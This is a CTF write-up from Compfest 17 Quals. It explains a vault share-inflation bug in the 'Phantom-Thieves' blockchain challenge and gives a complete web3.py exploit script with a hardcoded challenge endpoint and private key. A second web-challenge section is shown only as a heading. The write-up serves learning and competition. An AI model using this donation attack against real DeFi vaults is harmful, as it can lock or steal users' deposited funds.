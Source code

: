 ```yaml
---
date: 2025-09-01 18:03:00
layout: post
title: Compfest 17 Quals
subtitle: Lorem ipsum dolor sit amet, consectetur adipisicing elit.
description: Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.
image: https://images6.alphacoders.com/135/1355194.jpeg
optimized_image: https://images6.alphacoders.com/135/1355194.jpeg
category: ctf
tags:
  - pwn
  - bof
  - foren
  - blockchain
  - web
author: --
---
```


I played for the team lastseenin2026 and finished in 20th place. 
This is when the scoreboard was frozen. This write-up is incomplete because I only wrote what I had finished.

# Phantom-Thieves (Blockchain)
## Description

> Author: Xymbol 
> Let's infiltrate this place and make the greedy king got trapped!!

## Overview
Two attachments are provided: **Fortress.sol** and **Setup.sol**.
The main vulnerability lies in the Vault contract, specifically in how the deposit function calculates shares. 
This function calculates the number of new shares based on the token balance in the vault before new tokens from users enter.

## Solver
Step by step to exploit

- The attacker first makes a small deposit to obtain an initial number of shares in the vault. 
- After obtaining the initial shares, the attacker purchased a large number of *PhantomCoin* tokens. However, instead of depositing the tokens, the attacker transferred them directly to the Vault contract address.
- Due to the inflation of the balance, the calculation ratio in the *openVault()* function becomes invalid. The calculated wouldMint value will fall to zero because the integer division result has a smaller numerator than the denominator. This condition automatically triggers a NoShares() error. Thus, the isSolved() function will return a true value in accordance with the challenge objective.

### Exploit
```python
from web3 import Web3
import json

RPC_URL = "http://ctf.compfest.id:7401/e4c53161-3565-4b30-bc8b-8cd24f82a5ad"
ATTACKER_PRIVATE_KEY = "f3988499fd7ac9e273bbdb180685a1cd96b74b142dc1df73c7055f552bd6f30f"
SETUP_CONTRACT_ADDRESS = "0xB2838D80b2bc8D9E7284d7B6bE2bc194Ff4e574A"
WALLET_ADDR = "0x7734785884951636907fB4677D5CB12B14Ab61cb"

try:
    with open('Fortress.json') as f:
        FORTRESS_ABI = json.load(f)
    with open('PhantomCoin.json') as f:
        PHTM_ABI = json.load(f)
    with open('Vault.json') as f:
        VAULT_ABI = json.load(f)
    with open('Setup.json') as f:
        SETUP_ABI = json.load(f)
except FileNotFoundError:
    print("Error: Pastikan file ABI (.json) ada di folder yang sama dengan skrip ini.")
    exit()
except json.JSONDecodeError:
    print("Error: Ada masalah saat membaca file JSON. Pastikan isinya valid.")
    exit()
# --- AKHIR KONFIGURASI ---


# 1. Koneksi ke Blockchain
w3 = Web3(Web3.HTTPProvider(RPC_URL))
if not w3.is_connected():
    print("Gagal terhubung ke node blockchain!")
    exit()

attacker_account = w3.eth.account.from_key(ATTACKER_PRIVATE_KEY)
w3.eth.default_account = attacker_account.address
print(f"Berhasil terhubung. Alamat Attacker: {attacker_account.address}")

setup_contract = w3.eth.contract(address=SETUP_CONTRACT_ADDRESS, abi=SETUP_ABI)

challenge_address = setup_contract.functions.challenge().call()
challenge_contract = w3.eth.contract(address=challenge_address, abi=FORTRESS_ABI)

token_address = challenge_contract.functions.token().call()
token_contract = w3.eth.contract(address=token_address, abi=PHTM_ABI)

vault_address = challenge_contract.functions.vault().call()
vault_contract = w3.eth.contract(address=vault_address, abi=VAULT_ABI)

print(f"Alamat kontrak Fortress: {challenge_address}")
print(f"Alamat kontrak Token: {token_address}")
print(f"Alamat kontrak Vault: {vault_address}")

def send_tx(tx):
    tx['chainId'] = w3.eth.chain_id
    tx['gas'] = w3.eth.estimate_gas(tx)
    tx['maxFeePerGas'] = w3.eth.gas_price * 2
    tx['maxPriorityFeePerGas'] = w3.to_wei(1, 'gwei')

    signed_tx = w3.eth.account.sign_transaction(tx, ATTACKER_PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)

    print(f"Mengirim transaksi, hash: {tx_hash.hex()}. Menunggu konfirmasi...")
    tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash, timeout=120)
    print("Transaksi berhasil!")
    return tx_receipt

print("\n--- Memulai Eksploitasi ---")

print("\n[LANGKAH 1] Melakukan deposit awal sebesar 1 wei...")
tx_buy_initial = token_contract.functions.buyTokens().build_transaction({
    'from': attacker_account.address,
    'nonce': w3.eth.get_transaction_count(attacker_account.address),
    'value': 1
})
send_tx(tx_buy_initial)

tx_approve = token_contract.functions.approve(vault_address, 1).build_transaction({
    'from': attacker_account.address,
    'nonce': w3.eth.get_transaction_count(attacker_account.address),
})
send_tx(tx_approve)

tx_deposit = vault_contract.functions.deposit(1).build_transaction({
    'from': attacker_account.address,
    'nonce': w3.eth.get_transaction_count(attacker_account.address),
})
send_tx(tx_deposit)
print("Deposit awal berhasil. Total shares sekarang > 0.")

print("\n[LANGKAH 2 & 3] Membeli banyak token dan mentransfer langsung ke Vault...")
attack_amount = w3.to_wei(0.5, 'ether')

tx_buy_attack = token_contract.functions.buyTokens().build_transaction({
    'from': attacker_account.address,
    'nonce': w3.eth.get_transaction_count(attacker_account.address),
    'value': attack_amount
})
send_tx(tx_buy_attack)

tx_inflate = token_contract.functions.transfer(vault_address, attack_amount).build_transaction({
    'from': attacker_account.address,
    'nonce': w3.eth.get_transaction_count(attacker_account.address),
})
send_tx(tx_inflate)
print("Balance vault berhasil diinflasi!")

is_solved = setup_contract.functions.isSolved().call()

if is_solved:
    print("\n✅ SELAMAT! Tantangan berhasil diselesaikan!")
else:
    print("\n❌ GAGAL! Tantangan belum selesai.")

```

# Dark Side Of Asteroid (Web Exploitation)
## Description
> Author: jay
> something seems wrong???

## Overview

